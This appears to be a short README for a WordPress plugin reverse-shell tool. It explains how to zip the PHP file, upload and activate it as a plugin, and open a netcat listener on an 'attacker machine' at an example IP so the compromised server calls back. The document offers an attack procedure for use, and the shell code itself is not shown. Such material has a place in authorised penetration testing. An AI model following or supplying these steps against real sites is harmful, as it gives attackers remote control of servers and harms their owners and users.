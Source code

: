 # wordpress_plugin_reverse_shell.php
1.) Zip up php file. NOTE: PHP script uses example attacker machine IP: 192.168.0.1
2.) Navigate WP UI -> Plugins -> Add New -> Upload Plugin 
   -> Browse -> Install Now -> Activate Plugin.
3.) Setup listening port with netcat from attacker machine: netcat -lvp 80
